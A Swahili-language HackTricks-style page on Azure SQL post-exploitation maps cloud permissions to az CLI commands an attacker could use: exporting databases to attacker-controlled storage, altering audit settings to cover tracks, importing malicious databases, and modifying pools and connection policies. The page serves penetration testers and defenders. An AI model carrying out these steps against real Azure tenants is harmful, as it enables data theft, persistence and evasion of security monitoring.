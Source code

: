 # Az - SQL Database Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## SQL Database Post Exploitation

Kwa maelezo zaidi kuhusu SQL Database angalia:

{{#ref}}
../az-services/az-sql.md
{{#endref}}

### `Microsoft.Sql/servers/databases/read`, `Microsoft.Sql/servers/read` && `Microsoft.Sql/servers/databases/write`

Kwa ruhusa hizi, mshambuliaji anaweza kuunda na kusasisha databases ndani ya mazingira yaliyoathiriwa. Shughuli hii ya baada ya unyakuzi inaweza kumwezesha mshambuliaji kuongeza data mbaya, kubadilisha mipangilio ya database, au kuingiza backdoors kwa ajili ya kudumu zaidi, ambayo inaweza kuathiri shughuli au kuwezesha vitendo vingine vya uhalifu.
```bash
# Create Database
az sql db create --resource-group <resource-group> --server <server-name> --name <new-database-name>

# Update Database
az sql db update --resource-group <resource-group> --server <server-name> --name <database-name> --max-size <max-size-in-bytes>
```
### `Microsoft.Sql/servers/elasticPools/write` && `Microsoft.Sql/servers/elasticPools/read`

Kwa ruhusa hizi, mshambuliaji anaweza kuunda na kusasisha elasticPools ndani ya mazingira yaliyoathiriwa. Shughuli hii ya baada ya unyakuzi inaweza kumwezesha mshambuliaji kuongeza data mbaya, kubadilisha mipangilio ya hifadhidata, au kuingiza milango ya nyuma kwa ajili ya kudumu zaidi, ambayo inaweza kuathiri shughuli au kuwezesha vitendo vingine vya uhalifu.
```bash
# Create Elastic Pool
az sql elastic-pool create \
--name <new-elastic-pool-name> \
--server <server-name> \
--resource-group <resource-group> \
--edition <edition> \
--dtu <dtu-value>

# Update Elastic Pool
az sql elastic-pool update \
--name <elastic-pool-name> \
--server <server-name> \
--resource-group <resource-group> \
--dtu <new-dtu-value> \
--tags <key=value>
```
### `Microsoft.Sql/servers/auditingSettings/read` && `Microsoft.Sql/servers/auditingSettings/write`

Kwa ruhusa hii, unaweza kubadilisha au kuwezesha mipangilio ya ukaguzi kwenye Azure SQL Server. Hii inaweza kumruhusu mshambuliaji au mtumiaji aliyeidhinishwa kubadilisha usanidi wa ukaguzi, ambayo inaweza kufunika nyayo au kuelekeza kumbukumbu za ukaguzi kwenye eneo chini ya udhibiti wao. Hii inaweza kuzuia ufuatiliaji wa usalama au kuwezesha kuendelea kufuatilia vitendo. KUMBUKA: Ili kuwezesha ukaguzi kwa Azure SQL Server ukitumia Blob Storage, lazima uunganishe akaunti ya hifadhi ambapo kumbukumbu za ukaguzi zinaweza kuhifadhiwa.
```bash
az sql server audit-policy update \
--server <server_name> \
--resource-group <resource_group_name> \
--state Enabled \
--storage-account <storage_account_name> \
--retention-days 7
```
### `Microsoft.Sql/locations/connectionPoliciesAzureAsyncOperation/read`, `Microsoft.Sql/servers/connectionPolicies/read` && `Microsoft.Sql/servers/connectionPolicies/write`

Kwa ruhusa hii, unaweza kubadilisha sera za muunganisho za Azure SQL Server. Uwezo huu unaweza kutumika kubadilisha au kubadilisha mipangilio ya muunganisho ya kiwango cha seva.
```bash
az sql server connection-policy update \
--server <server_name> \
--resource-group <resource_group_name> \
--connection-type <Proxy|Redirect|Default>
```
### `Microsoft.Sql/servers/databases/export/action`

Kwa ruhusa hii, unaweza kusafirisha database kutoka kwa Azure SQL Server hadi akaunti ya hifadhi. Mshambuliaji au mtumiaji aliyeidhinishwa mwenye ruhusa hii anaweza kuhamasisha data nyeti kutoka kwenye database kwa kuisafirisha hadi mahali wanapodhibiti, na kuleta hatari kubwa ya uvujaji wa data. Ni muhimu kujua funguo za hifadhi ili uweze kufanya hivi.
```bash
az sql db export \
--server <server_name> \
--resource-group <resource_group_name> \
--name <database_name> \
--storage-uri <storage_blob_uri> \
--storage-key-type SharedAccessKey \
--admin-user <admin_username> \
--admin-password <admin_password>

```
### `Microsoft.Sql/servers/databases/import/action`

Kwa ruhusa hii, unaweza kuingiza database kwenye Azure SQL Server. Mshambuliaji au mtumiaji aliyeidhinishwa mwenye ruhusa hii anaweza kuhamasisha databases zenye madhara au zilizobadilishwa. Hii inaweza kusababisha kupata udhibiti wa data nyeti au kwa kuingiza scripts au triggers zenye madhara ndani ya database iliyounganishwa. Zaidi ya hayo, unaweza kuingiza kwenye seva yako mwenyewe katika azure. Kumbuka: Seva lazima iruhusu huduma na rasilimali za Azure kufikia seva hiyo.
```bash
az sql db import --admin-user <admin-user> \
--admin-password <admin-password> \
--name <target-database-name> \
--server <azure-sql-server-name> \
--resource-group <resource-group-name> \
--storage-key-type SharedAccessKey \
--storage-key <storage-account-key> \
--storage-uri `https://<storage-account-name>.blob.core.windows.net/bacpac-container/MyDatabase.bacpac`
```
{{#include ../../../banners/hacktricks-training.md}}
